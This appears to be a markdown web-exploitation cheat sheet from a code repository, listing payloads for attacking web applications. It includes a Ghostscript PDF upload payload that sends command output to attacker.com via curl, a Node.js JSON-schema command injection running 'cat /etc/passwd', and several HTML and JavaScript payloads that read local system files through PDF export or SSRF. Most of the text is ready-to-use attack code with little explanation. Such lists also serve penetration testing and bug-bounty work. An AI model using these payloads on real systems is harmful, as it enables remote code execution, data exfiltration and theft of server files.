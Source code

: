 # Web Exploitation Methods

## Enumeration

### HTTP PROBE using cURL

```
cat alive-subdomains.txt | parallel -j50 -q curl -w 'Status:%{http_code}\t  Size:%{size_download}\t %{url_effective}\n' -o /dev/null -sk
```

### PHP Disabled Function Check

```
<?php var_dump(explode(',',ini_get('disable_functions'))); ?>
```

## Exploitation

### PDF RCE

```
Content-Disposition: form-data; name="fileToUpload"; filename="pwn.pdf"
Content-Type: application/pdf

%!PS
currentdevice null true mark /OutputICCProfile (%pipe%curl http://attacker.com/?a=$(whoami|base64) )
.putdeviceparams
quit
```

### Node.JS JSON Validation Command Injection (RCE)

```
// https://hackerone.com/reports/894308
const schema = {
  type: 'object',
  properties: {
    'x[console.log(process.mainModule.require(`child_process`).execSync(`cat /etc/passwd`).toString(`utf-8`))]': {
      required: true,
      type:'string'
    }
  },
}
```

### PDF Export Injection / HTML Injection / Server Side Request Forgery (SSRF) Local File Read

#### Using HTML

##### iframe

```
<iframe src="file:///C:/windows/system32/drivers/etc/hosts height=1000 width=1000/>
```

Via [securityonline.info](https://securityonline.info/export-injection-new-server-side-vulnerability/)

##### object

```
<object data=”http://127.0.0.1:8443”/>
```

##### link

```
# local file read
<link rel=attachment src="file:///etc/passwd">
# to extract
pdfdetach -saveall vuln.doc
```

#### Using Javascript

```
<script>x=new XMLHttpRequest; 
x.onload=function(){ document.write(this.responseText) }; 
x.open("GET","file:///etc/passwd"); x.send(); </script> 
```

Via [noob.ninja](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html) 

#### object

```
<html>
  <body>
    <object data="file:///etc/passwd"/>
  </body>
</html>
```

#### portal

```
<html>
  <body>
    <portal src="file:///etc/passwd" id=portal></portal>
  </body>
</html>
```